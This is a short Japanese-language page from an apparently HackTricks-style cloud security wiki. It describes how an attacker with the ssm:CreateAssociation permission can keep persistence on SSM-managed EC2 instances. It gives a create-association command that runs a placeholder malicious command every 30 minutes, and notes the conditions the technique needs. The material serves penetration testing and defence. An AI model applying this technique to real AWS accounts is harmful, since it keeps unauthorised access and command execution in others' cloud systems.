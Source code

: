 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

詳細については、次を確認してください：

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### ssm:CreateAssociationを使用した持続性

ssm:CreateAssociationの権限を持つ攻撃者は、SSMによって管理されるEC2インスタンスでコマンドを自動的に実行するためのState Manager Associationを作成できます。これらのアソシエーションは、固定の間隔で実行されるように構成でき、対話型セッションなしでバックドアのような持続性に適しています。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> この永続化方法は、EC2インスタンスがSystems Managerによって管理されており、SSMエージェントが実行中で、攻撃者が関連付けを作成する権限を持っている限り機能します。インタラクティブセッションや明示的なssm:SendCommand権限は必要ありません。**重要:** `--schedule-expression`パラメータ（例: `rate(30 minutes)`）は、AWSの最小間隔である30分を尊重する必要があります。即時または一度きりの実行の場合は、`--schedule-expression`を完全に省略してください — 関連付けは作成後に一度実行されます。

{{#include ../../../banners/hacktricks-training.md}}
